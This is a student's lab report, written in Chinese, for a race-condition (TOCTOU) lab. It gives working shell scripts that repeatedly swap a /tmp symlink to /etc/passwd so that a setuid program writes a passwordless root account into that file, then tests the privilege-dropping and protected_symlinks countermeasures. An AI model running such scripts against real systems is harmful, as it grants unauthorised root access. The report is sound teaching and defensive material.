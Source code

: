 # Race Condition Vulnerability Lab

> 1120162015 李博

## Task0: Environment setup

首先进行如下环境的设置。

![task0-setup](../images/lab6-task0-setup.png)

## Task1: Choosing Our Target

尝试手动添加`test:U6aMy0wojraho:0:0:test:/root:/bin/bash`至`/etc/passwd`。

结果如下，可以看到用户test的密码为空即可登录，并且权限为root。

![task1-first-try](../images/lab6-task1-first-try.png)

## Task 2: Launching the Race Condition Attack

编写shell脚本如下。

exp_check.sh

```shell
#!/bin/bash
CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
	./vulp < input
	new=$($CHECK_FILE)
done
echo "STOP... Attack successfully!"
```

exp_symbolic.sh

```shell
#!/bin/bash

while :
do
	ln -sf /home/seed/Desktop/Lab06/input /tmp/XYZ
	
	ln -sf /etc/passwd /tmp/XYZ
done
```

执行结果如下

![task2-attack](../images/lab6-task2-attack.png)

尝试执行`su test`切换用户，结果如下，攻击成功。

![task2-su-test](../images/lab6-task2-result.png)

## Task 3: Countermeasure: Applying the Principle of Least Privilege

修改`vulp.c`为如下内容。

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
	char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
	uid_t real_uid = getuid();
	uid_t e_uid = geteuid();	

    /* get user input */
    scanf("%50s", buffer );
    setuid(real_uid);	   // 1. set real uid.
    if(!access(fn, W_OK)){

        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
    setuid(e_uid);         // 2. if need euid then set effective uid.
    return 0;
}
```

再次执行攻击脚本`exp_check.sh`和`exp_symbolic.sh`，结果如下。

![task3-result](../images/lab6-task3-result.png)

可以看到无法攻击成功，并且过程中还出现了`Segmentation fault`。

因为在程序进行读写过程中，其用户权限被降至`seed`，而该用户并没有写`/etc/passwd`的权限，故攻击失败。

## Task 4: Countermeasure: Using Ubuntu’s Built-in Scheme

设置`sudo sysctl -w fs.protected_symlinks=1`后结果如下图，可以看到有大量的段错误出现。

![task4-result](../images/lab6-task4-result.png)

### (1) How does this protection scheme work?  

[原理](https://lore.kernel.org/patchwork/patch/311492/)

![task4-reason](../images/lab6-task4-reason.png)

该机制的原理在于check符号链接的uid与执行符号链接时的程序的uid是否匹配。

当程序运行时，由于setuid机制拥有的权限为root，而符号链接`/tmp/XYZ`的owner是seed，如下图。

两者不匹配，故出现错误。

![task4-xyz-uid](../images/lab6-task4-xyz-uid.png)

为验证上述想法，将程序设置为`sudo chmod 755 vulp`，非setuid，如下图。

![task4-prove](../images/lab6-task4-prove.png)

可以看到，当设置程序权限为`755`时，可以正常运行，而当程序权限为`4755`即setuid时，运行出现段错误。

### (2) What are the limitations of this scheme?
